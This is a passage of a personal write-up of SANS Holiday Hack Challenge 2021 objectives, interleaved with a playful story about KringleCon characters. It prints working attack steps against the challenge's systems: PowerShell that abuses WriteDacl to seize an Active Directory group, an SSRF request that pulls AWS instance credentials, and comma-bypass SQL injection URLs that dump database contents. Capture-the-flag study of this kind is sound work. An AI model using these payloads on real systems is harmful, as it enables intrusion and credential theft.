$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
# 2.
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "xvduawqtni"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
# 3.
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "xvduawqtni"
$password = "Hbqwldgap#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
remote_elf has WriteDacl on "Research Department" group
PSComputerName : 10.128.1.53
RunspaceId : 82625daa-6e87-4675-a5db-da200050c428
ActiveDirectoryRights : WriteDacl
InheritanceType : None
ObjectType : 00000000-0000-0000-0000-000000000000
InheritedObjectType : 00000000-0000-0000-0000-000000000000
ObjectFlags : None
AccessControlType : Allow
IdentityReference : ELFU\remote_elf
IsInherited : False
InheritanceFlags : None
PropagationFlags : None
added my user to "Research Department" group
PSComputerName : 10.128.1.53
RunspaceId : 82625daa-6e87-4675-a5db-da200050c428
ActiveDirectoryRights : GenericAll
InheritanceType : None
ObjectType : 00000000-0000-0000-0000-000000000000
InheritedObjectType : 00000000-0000-0000-0000-000000000000
ObjectFlags : None
AccessControlType : Allow
IdentityReference : ELFU\xvduawqtni
IsInherited : False
InheritanceFlags : None
PropagationFlags : None
smbclient -U xvduawqtni //172.17.0.4/research_dep (password: Hbqwldgap#)
Enter WORKGROUP\xvduawqtni's password:
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Thu Dec 2 16:39:42 2021
.. D 0 Sun Dec 26 08:01:29 2021
SantaSecretToAWonderfulHolidaySeason.pdf N 173932 Thu Dec 2 16:38:26 2021
41089256 blocks of size 1024. 34768316 blocks available
What I Learned
The anatomy of Windows network takeovers like this do actually follow a bit of a pattern. Learn patterns like this (and maybe a handful of others) and enterprise networks are your oyster. This was my first time utlizing kerberoasting on Windows network. And also my first time abusing group permissions. So cool!
Sub-narrative
I completed the objective and ran back to tell the Pidgeon Gang that they were all correct. Every part of data breach that I facilitated was the best part! I gave them each an invite to my KringleCon after-party. I told them I would probably give an invite to Cyberus too. They were concerned. Dealer explained that Cyberus tends to chase them when he sees their gang.
There must be a way that I could have both Cyberus and the Pidgeon Gang at my party. I told them I would come up with a solution. That's the thing about KringleCon. Everywhere you go there are new problems! (I just hoped I hadn't made a promise I couldn't keep.)
Objective 9: Splunk!
Answer: whiz
Help Angel Candysalt solve the Splunk challenge in Santa's great hall. Fitzy Shortstack is in Santa's lobby, and he knows a few things about Splunk. What does Santa call you when when you complete the analysis?
Capture the commands Eddie ran most often, starting with git. Looking only at his process launches as reported by Sysmon, record the most common git-related CommandLine that Eddie seemed to use.
- Tip: Add "CommandLine" to Splunk columns
Answer: git status
Looking through the git commands Eddie ran, determine the remote repository that he configured as the origin for the 'partnerapi' repo. The correct one!
- Tip: Look at rare commands *
Answer: git@github.com:elfnp3/partnerapi.git
The 'partnerapi' project that Eddie worked on uses Docker. Gather the full docker command line that Eddie used to start the 'partnerapi' project on his workstation.
Answer: docker compose up
Eddie had been testing automated static application security testing (SAST) in GitHub. Vulnerability reports have been coming into Splunk in JSON format via GitHub webhooks. Search all the events in the main index in Splunk and use the sourcetype field to locate these reports. Determine the URL of the vulnerable GitHub repository that the elves cloned for testing and document it here. You will need to search outside of Splunk (try GitHub) for the original name of the repository.
https://github.com/elfnp3/dvws-node
Answer: https://github.com/snoopysecurity/dvws-node
Santa asked Eddie to add a JavaScript library from NPM to the 'partnerapi' project. Determine the name of the library and record it here for our workshop documentation.
Answer: holiday-utils-js
Another elf started gathering a baseline of the network activity that Eddie generated. Start with their search and capture the full process_name field of anything that looks suspicious.
Answer: /usr/bin/nc.openbsd
Uh oh. This documentation exercise just turned into an investigation. Starting with the process identified in the previous task, look for additional suspicious commands launched by the same parent process. One thing to know about these Sysmon events is that Network connection events don't indicate the parent process ID, but Process creation events do! Determine the number of files that were accessed by a related process and record it here.
Answer: 6
Use Splunk and Sysmon Process creation data to identify the name of the Bash script that accessed sensitive files and (likely) transmitted them to a remote IP address.
Answer: preinstall.sh
What I Learned
Juicy information information lives in GitHub logs.
Sub-narrative
All the way through the Splunk objective I puzzled about Cyberus and the Pidgeon Gang. How could they both be at my KringleCon after-party? One thing about Splunk is, it teaches you plenty of information is hiding in plain sight. Maybe there was a way to hide the Pidgeon Gang in plain sight. I decided to take a quick jaunt to Cyberus' Cafe. My friend the hunter was still there.
Before requesting help, I gave him an invite to my KringleCon after-party. (Quick thinking on my part, since I was about to ask him if he could help me solve my "invite" problem.) "Hey man," I said, "I want to invite both the Pidgeon Gang and Cyberus to my KringCon after-party." I told him Cyberus would likely change the pidgeons and ruin my party.
He looked down at his blaze orange shoes and then back up at me. "Well," he said, "I'm not sure I have an answer for you, but the next challenge might spark an idea or two." I told him he was a poet and didn't know it. Apparently he knew it. He opened up a book of poems and handed it to me, written by a North Pole poet from the 21st Century. "I've been studying poetry my own life and this is my favorite book," he said. "You can't judge this book by its cover, though. Look inside." I opened up the book. Sure, there were poems, but in the middle was a blank page. I showed it to him. He told me something was written there but that I couldn't see it unless I had access to the person who wrote it and could see through their eyes. "What?" I asked. "In order to see it, you must be the author." He handed me the book. "Give it back to me at your KringCon after-party."
What the hunter was saying sounded cryptic. His words rattled around in my head as I left the cafe and headed to my next objective.
Objective 10: Now Hiring!
Answer: CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX
What is the secret access key for the Jack Frost Tower job applications server? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.
Hint: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
FORM REQUEST
GET /?inputName=106&inputEmail=101%40gmail.com&
inputPhone=1234567890&
inputField=Aggravated+pulling+of+hair&resumeFile=web_purple_expense.zip&
inputWorkSample=http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role/&
additionalInformation=&submit= HTTP/2
Host: apply.jackfrosttower.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://apply.jackfrosttower.com/?p=apply
Upgrade-Insecure-Requests: 1
Te: trailers
FORM RESPONSE
<div class="row">
<div class="col-sm-4">
<div class="card text-white bg-primary mb-3" style="max-width: 20rem;">
<div class="card-body">
<p class="card-text"><h3><br />Naughty list recipients rejoice!<br /><br /><br /></h3></p>
</div>
</div>
</div>
<div class="col-sm-4">
<div class="card text-white bg-secondary mb-3" style="max-width: 20rem;">
<div class="card-body">
<img class="rounded mx-auto d-block" src="images/106.jpg" width="200px" />
</div>
</div>
</div>
<div class="col-sm-4">
<div class="card text-white bg-primary mb-3" style="max-width: 20rem;">
<div class="card-body">
<p class="card-text"><h3><br />We'll be in touch.<br /><br /><br /></h3></p>
</div>
</div>
</div>
IMAGE REQUEST
GET /images/106.jpg HTTP/2
Host: apply.jackfrosttower.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
IMAGE RESPONSE
HTTP/2 200 OK
Server: nginx/1.16.1
Date: Wed, 29 Dec 2021 01:54:36 GMT
Content-Type: image/jpeg
Content-Length: 308
Last-Modified: Wed, 29 Dec 2021 01:54:35 GMT
Etag: "61cbbfdb-134"
Expires: Mon, 03 Jan 2022 01:54:36 GMT
Cache-Control: max-age=432000
Accept-Ranges: bytes
Via: 1.1 google
Alt-Svc: clear
{
"Code": "Success",
"LastUpdated": "2021-05-02T18:50:40Z",
"Type": "AWS-HMAC",
"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
"Expiration": "2026-05-02T18:50:40Z"
}
What I Learned
You can combine Server Side Request Forgery (SSRF) with knowledge about AWS metadata to discover secrets! In this case, the secret only revealed itself only when you made a server side request. Or, rather, when you forged a server side request.
Sub-narrative
That's it! I think the hunter poet with blaze orange shoes was telling this. In order to see the blank page I had to somehow make the page think that the author was the one who was looking at it. ASRF or Author Side Reading Forgery is the technical term. Who was the author, though? Could it be Cyberus? The hunter wouldn't have let me borrow his book unless I had access to the author.
Quickly I found Cyberus. But how could I make the book believe that I as Cyberus? And do this without Cyberus knowing? Maybe Cyberus only had to be close by. Yes, that could be it. I ran back up the the Speaker UNPreparedness vending machine and purchased another 21 dog treats. This time I ponied up the cash for extra gravy bisquits. No time for half measures. I greeted Cyberus and handed him an invitation to my KringleCon after-party. While he relished his invite and all three heads dug into extra gravy morsels, I pulled out the poet hunter's book. Every one of those words rang true and glowed like Rudolph's nose, pouring off of every page like it was written in my soul from Cyberus to whomever this was intended for. The words:
For some reason I can't see those hooomangone pidgeons if they're wearing blue!
No one must know this because I have so much fun chasing pidgeons!
Mystery solved! My KringleCon after party was saved! All this sleuthing was making me tired. I made my way over to Frost Tower to check in for the night and use the wi-fi there. Was tough for me to go to sleep. So much shouting between guests and trolls. I had no idea what was going on. Maybe I'd learn more in my next objective.
Objective 11: Complaint
Answer: "Flud Hagg Yaqh"
Customer Complaint Analysis: A human has accessed the Jack Frost Tower network with a non-compliant host. Which three trolls complained about the human? Enter the troll names in alphabetical order separated by spaces. Talk to Tinsel Upatree in the kitchen for hints.
Hints
Are you familiar with RFC3514?
Wireshark uses a different name for the Evil Bit: ip.flags.rb.
HTTP responses are often gzip compressed. Fortunately, Wireshark decompresses them for us automatically.
You can search for strings in Wireshark fields using display filters with the contains keyword.
ip.flags.rb == 0 && http.request.uri matches "php"
non-compliant host
ip.flags.rb == 1 && http.request.uri matches "php"
search for trolls complaing about this woman
Form item: "description" = "I have never, in my life, been in a facility with such a horrible staff. They are rude and insulting. What kind of place is this? You can be sure that I (or my lawyer) will be speaking directly with Mr. Frost!"
Yaqh
Form item: "name" = "Yaqh"
Key: name
Value: Yaqh
Form item: "guest_info" = "Snooty lady in room 1024"
Key: guest_info
Value: Snooty lady in room 1024
Flud
Form item: "name" = "Flud"
Key: name
Value: Flud
Form item: "guest_info" = "Very cranky lady in room 1024"
Key: guest_info
Value: Very cranky lady in room 1024
Hagg
Form item: "name" = "Hagg"
Key: name
Value: Hagg
Form item: "guest_info" = "Incredibly angry lady in room 1024"
Key: guest_info
Value: Incredibly angry lady in room 1024
What I Learned
Trolls have different sensibilities than humans do. Their antics are hillarious. I never in my life imagined that I would be reading packet captures out loud to my children.
Sub-narrative
Wow, did I ever find out what was going on. Little bit of a communications breakdown between the humans and trolls, I guess.
The next morning I ran over to Santa's Castle and quickly found the Pidgeon Gang. I told them the good news. Wear blue! They were elated. Dealer said it answered a question lingering for the gang. Last year they were asked to join the Blue Man group for a show and all four of them got tangled up in blue. They came back to Santa's Castle afterward. When they passed through the gate, Cyberus was standing there looking at them and never chased them. "We thought there was something wrong with him," Dealer said. "But he couldn't see us!"
Objective 12: Frost Tower
Answer: "clerk"
Investigate Frost Tower's website for security issues. This source code will be useful in your analysis. In Jack Frost's TODO list, what job position does Jack plan to offer Santa? Ribb Bonbowford, in Santa's dining room, may have some pointers for you.
Hint
https://github.com/mysqljs/mysql
https://staging.jackfrosttower.com/login
- Add contact.
- Repeat this contact add (follow redirect) in Burp.
- Make sure to change the email in the repeat request.
- (Filling out the form twice is what gets auth bypass)
- Confirm that it was added in the response
- Navigate to dashboard. You are now authenticated.
server.js
injection endpoint ---> /detail/:id
app.get('/detail/:id', function(req, res, next) {
session = req.session;
var reqparam = req.params['id'];
var query = "SELECT * FROM uniquecontact WHERE id=";
if (session.uniqueID){
try {
if (reqparam.indexOf(',') > 0){
var ids = reqparam.split(',');
reqparam = "0";
for (var i=0; i<ids.length; i++){
query += tempCont.escape(m.raw(ids[i]));
query += " OR id="
}
query += "?";
}else{
query = "SELECT * FROM uniquecontact WHERE id=?"
}
} catch (error) {
console.log(error);
return res.sendStatus(500);
}
select 1
This actually works, which means it might be the injection point
GET /detail/125,12,16,(select+1) HTTP/2
Host: staging.jackfrosttower.com
Cookie: _csrf=4ThebgHvu33K8JEg5KsizVyg; connect.sid=s%3AiVFeHdfrsnjtuI6nqzy7Uyge-LrJJ0FW.DQkOqPuLp%2BSZUfdDPc11V8DOdy8u7Iui%2BYDG99w0Cqk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
If-None-Match: W/"b53-wp032t1fGTjUmIAT8GqIU8iYtjk"
Te: trailers
select id
GET /detail/125,12,16,(select+id) HTTP/2
select with pipe
GET /detail/1||(select+id,email)||id HTTP/2
SELECT 1,2,3,4
This is the method for doing comma bypass.
UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
SELECT schema_name FROM information_schema.schemata limit 1 offset 1
https://staging.jackfrosttower.com/detail/1, 2 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT schema_name FROM information_schema.schemata limit 1 offset 1)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g --
SELECT table_name FROM information_schema.tables WHERE table_schema='encontact' limit 1 offset 0
todo
https://staging.jackfrosttower.com/detail/1,%202%20UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%20table_name%20FROM%20information_schema.tables%20WHERE%20table_schema='encontact'%20limit%201%20offset%201%20)b%20JOIN%20(SELECT%20password%20from%20users%20limit%201)c%20JOIN%20(SELECT%204)d%20JOIN%20(SELECT%205)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g%20--
https://staging.jackfrosttower.com/detail/1,%202%20UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(select%20*%20from%20todo)b%20JOIN%20(SELECT%205)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g%20--
https://staging.jackfrosttower.com/detail/1, 2 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g --
https://staging.jackfrosttower.com/detail/1, 2 UNION SELECT * FROM (SELECT 1)a JOIN (select * from todo)b JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g --
What I learned
If a challenge provides code, study it. I spent many, many hours on this challenge trying to get comfortable what my conclusion was for the actual injection point. Another crazy thing. In my years as a database developer, data warehouse developer, etc. I never once did I manually used "offset." "Offset" was super handy for this challenge. Also, comma bypass, who knew there was such a thing?!
Sub-narrative
This year at KringleCon I encountered so many mysteries. I have this feeling I'm leaving some unsolved. The good news is that my KringleCon after-party is shaping up to be a grand event! With everything going on, I've lost track the most important challenge. Stop Jack! If you've read this far, I thank you. I won't dissapoint with my remaining discovery. And a very big surprise. Bob Dial-In, the greatest songwriter of our time, found out about KringleCon. He wasn't able to do the challenges because he's a songwriter mostly and doesn't do much hacking. BUT he did hire some folks to hack into MY brain and enjoy KringleCon through ME. I'm so honored!! Anyway, wait till you hear what happened next.
Objective 13: FPGA
Write your first FPGA program to make a doll sing. You might get some suggestions from Grody Goiterson, near Jack's elevator.
Hello, students! In exercise #4, we continue our FPGA journey, documenting the creation of the sound chip for this holiday season's new Kurse 'em Out Karen doll. Our goal is to make the doll say its trademark phrase. But, as I always tell you in class, we must walk before we run.
Before the doll can say anything, we must first have it make noise. In this exercise you will design an FPGA module that creates a square wave tone at a variable frequency.
Creating a square wave output takes our clock signal (which is also a square wave) and uses a counter to divide the clock to match the desired frequency. One tricky problem that we'll encounter is that Verilog (v1364-2005) doesn't have a built-in mechanism to round real numbers to integers, so you'll need to devise a means to do that correctly if you want your module to match frequencies accurately.
Good luck and always remember:
If $rtoi(real_no * 10) - ($rtoi(real_no) * 10) > 4, add 1
FINAL CODE
// Note: For this lab, we will be working with QRP Corporation's CQC-11 FPGA.
// The CQC-11 operates with a 125MHz clock.
// Your design for a tone generator must support the following
// inputs/outputs:
// (NOTE: DO NOT CHANGE THE NAMES. OUR AUTOMATED GRADING TOOL
// REQUIRES THE USE OF THESE NAMES!)
// input clk - this will be connected to the 125MHz system clock
// input rst - this will be connected to the system board's reset bus
// input freq - a 32 bit integer indicating the required frequency
// (0 - 9999.99Hz) formatted as follows:
// 32'hf1206 or 32'd987654 = 9876.54Hz
// output wave_out - a square wave output of the desired frequency
// you can create whatever other variables you need, but remember
// to initialize them to something!
`timescale 1ns/1ns
module tone_generator (
input clk,
input rst,
input [31:0] freq,
output wave_out
);
reg[31:0] counter = 0;
reg[31:0] freqo;
reg wavo = 0;
assign wave_out = wavo;
//If $rtoi(real_no * 10) - ($rtoi(real_no) * 10) > 4, add 1
always @(posedge clk or posedge rst)
begin
if(rst==1)
begin
counter <= 0;
wavo <= 0;
end
else
begin
freqo <= (125000000)/(freq/50);
if(($rtoi(freqo * 10) - ($rtoi(freqo)*10)) > 4)
begin
freqo <= freqo + 1;
end
if(counter >= freqo)
begin
counter <= 1;
wavo <= wavo ^ 1'b1;
end
else
counter <= counter + 1;
end
end
endmodule
Sending code for analysis...
Verilog parsed cleanly...
Synthesizing/implementing design and generating bitstream.
Bitstream will then be sent to device.
This will take SEVERAL seconds...
The device has been successfully programmed!
What I Learned
FPGA. I didn't know this existed. Verilog. I didn't know this existed either. As for getting the Karen doll to sing. Very challenging. If I wrote my write-up to be true and honest to all the work I put this and the other difficult challenges at KringleCon, it would be 100 pages long. Full of scriblings and notes and trial and error and error. In fact, I would never want to admit the number of hours it took me to complete this years Holiday Hack Challenge! The understanding I gained from all the challenges at KringleCon this year is priceless, which is why I commit so much time and energy into completing it. I'm not impressed with my own hacking skills, my forensic skill or any of my computering skills for that matter. But I do love to learn! Huge thanks to everyone who made the magic happen for yet another year. I wrote "sub-narrative" because was inspired by the stories that have come to life at KringleCon. The KringleCon narratives are real for my kids too. This is the Jack Frost they know. This is the Santa they know.
Sub-narrative
Time for my KringleCon after-party! But not before I explain a bit about Jack Frost. Turns out he's from Planet Frost. It makes perfect sense now as I tell you but until I saved the holidays, I was oblivious to the fact. I mean, a spaceship literally landed on the root of Frost Tower. Jack Frost is an alien! He lost his way and I had to stop him! Luckily, I did. And they're taking him back.
To celebrate, I'm having a HUGE KringleCon after-party. And the very biggest news of all is...
Bob Dial-In is coming! He is going to perform at my party! Cyberus and Cyberia will be there. The Pidgeon Gang will be there. The poet hunter will be there. Dumpy will be there. And all the rest of the KringleCon family!
And the grand finally will be a duet with Bob Dial-In and some of the very best FPGA composers in the world. See you next year!